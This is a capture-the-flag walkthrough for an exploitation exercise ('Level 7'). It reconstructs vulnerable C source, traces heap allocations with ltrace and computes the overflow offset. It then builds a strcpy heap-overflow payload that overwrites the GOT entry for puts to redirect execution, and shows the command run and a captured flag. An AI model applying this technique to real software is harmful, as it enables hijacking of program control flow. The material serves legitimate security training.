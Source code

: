 # Level 7

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <string.h>

struct s {
    int id;
    void *ptr;
};

char c[80] = "";

void m()
{
    printf("%s - %d\n", c, time(0));
}

int main(int argc, char **argv)
{
    struct s *buffer1;
    struct s *buffer2;

    buffer1 = malloc(8);
    buffer1->id = 1;
    buffer1->ptr = malloc(8);

    buffer2 = malloc(8);
    buffer2->id = 2;
    buffer2->ptr = malloc(8);

    strcpy(buffer1->ptr, argv[1]);
    strcpy(buffer2->ptr, argv[2]);

    fgets(c, 68, fopen("/home/user/level8/.pass", "r"));
    puts("~~");
    return 0;
}
```

Let's focus on the `main` function. It reads input from the command line then copies it to our buffer using `strcpy`, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes copied.

Since we're interacting with the heap here we won't have to worry about the stack layout, in this case we'll have to overflow the value pointed by `buffer1->ptr` until we reach `&buffer2->ptr` and write the address of the GOT entry of `puts` to it. Then, thanks to the second `strcpy`, we'll be able to overwrite the value that the GOT entry address for `puts` points to with the address of the `m` function.

Yet again this exercise utilizes PLT and GOT, so please refer to the [level5 walkthrough](../level5/walkthrough.md) for a detailed explanation of how it works.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
$ ltrace ./level7 arg1 arg2
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8) = 0x0804a008  #buffer1 = malloc(8);
malloc(8) = 0x0804a018  #buffer1->ptr = malloc(8);
malloc(8) = 0x0804a028  #buffer2 = malloc(8);
malloc(8) = 0x0804a038  #buffer2->ptr = malloc(8);
strcpy(0x0804a018, "arg1") = 0x0804a018
strcpy(0x0804a038, "arg2") = 0x0804a038
[...]
```

As mentioned before we want to overflow the value pointed by `buffer1->ptr` until we reach `&buffer2->ptr`. So let's calculate the offset needed:
```
buffer1->ptr = 0x0804a018
buffer2 = 0x0804a028
0x0804a028 - 0x0804a018 = 16 bytes

0x0804a028 + 4 bytes (because buffer->id is an int) = 0x0804a02c
&buffer2->ptr = 0x0804a02c

16 bytes + 4 bytes = 20 bytes of padding
```

Using GDB we find that the address of the `m` function is `0x080484f4` and that the address of the GOT entry for `puts` is `0x8049928`.

We can then craft our payload:
```
arg1 = padding + address of the GOT entry for puts
arg2 = address of m

arg1 = "\x90"*20 + "\x08\x04\x99\x28"
arg2 = "\x08\x04\x84\xf4"
```

Let's run our payload:
```bash
level7@RainFall:~$ ./level7 `python -c 'print("\x90"*20 + "\x08\x04\x99\x28"[::-1])'` `python -c 'print("\x08\x04\x84\xf4"[::-1])'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1702752190
```

We are now level8! Let's move on to the next level.

